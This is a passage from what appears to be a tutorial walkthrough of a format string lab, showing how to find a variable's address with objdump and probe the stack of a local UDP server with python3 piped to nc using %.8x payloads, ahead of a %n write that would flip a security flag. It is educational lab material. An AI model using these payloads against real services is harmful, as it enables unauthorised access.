 
As you can see if we run **objdump -t** to get the symbols and filter them with egrep. What we care about is the addresses of the security\_flag and password. But how will this help us? This will help us because printf uses the stack. Pick one of the following training material and read it then try to bypass the program and make it send you the *secret menu*. I’m sure you can do it and if not, then read on.


- [SEED: Format string vulnerability lab.](http://www.cis.syr.edu/~wedu/seed/Labs_16.04/Software/Format_String_Server/)
- (scut / team teso) [Exploiting Format String Vulnerabilities](http://www.cis.syr.edu/~wedu/seed/Labs_16.04/Software/Format_String_Server/files/formatstring-1.2.pdf)
- [A simple Format String exploit example – bin 0x11](https://www.youtube.com/watch?v=0WvrSfcdq1)[](https://www.youtube.com/watch?v=0WvrSfcdq1I)


### Switching the security\_flag


Switching the security flag is easy, all we have to do is make the pop the stack until we’re at the beginning of our format string and then make the format string containing the 4 byte address that we want to write to.


In order to *write* to that address we will use **%n** and to *pop* the stack **%.8x**.


- %n – writes the total number of printed characters to a variable.
- %.8x – displays an address in a pretty way.


Let’s use python to simplify our exploit techniques by saving us lots of characters to type.


We fire two terminals, one for the program and one for our exploit.


```
// Sending 123456 to the server echoes it back to us because that's what the server is supposed to do.
➜  ~ python3 -c "print('123456')" | nc 127.0.0.1 -u 9090
123456


// We can unlock the secret by looking at the other terminal and sending it the correct password
➜  ~ python3 -c "print('KCOIAMKAF')" | nc 127.0.0.1 -u 9090
secret unlocked


// restart the server.
```

Now, let’s unlock the secret by not knowing the correct password and by only switching the security flag, as we seen earlier, it’s address is: **0804a088**.


```
<pre class="wp-block-code">```
// If we send %.8x. 10 times we get the following output back. We're trying to pop the stack until we're at the beginning of our format string, this way we can inject things.

➜  ~ python3 -c "print('%.8x.'*10)" | nc 127.0.0.1 -u 9090
000001f3.00000000.bfd45c74.bfd45888.b753a000.bfd457b4.00000000.30303030.33663130.3030302e

// We send out 'aaaa' which is 61616161 in hex and look, there's is a response containing aaaa. 
➜  ~ python3 -c "print('aaaa'+'%.8x.'*10)" | nc 127.0.0.1 -u 9090
aaaa000001f3.00000000.bfd45c74.bfd45888.b753a000.bfd457b4.00000000.61616161.30303030.33663130.

// Narrowing it down we have to send 7 times %x in order to get the stack to point to our string. If we send 8 we miss it.
➜  ~ python3 -c "print('aaaa'+'%.8x.'*8)" | nc 127.0.0.1 -u 9090
aaaa000001f3.00000000.bfd45c74.bfd45888.b753a000.bfd457b4.00000000.61616161.
```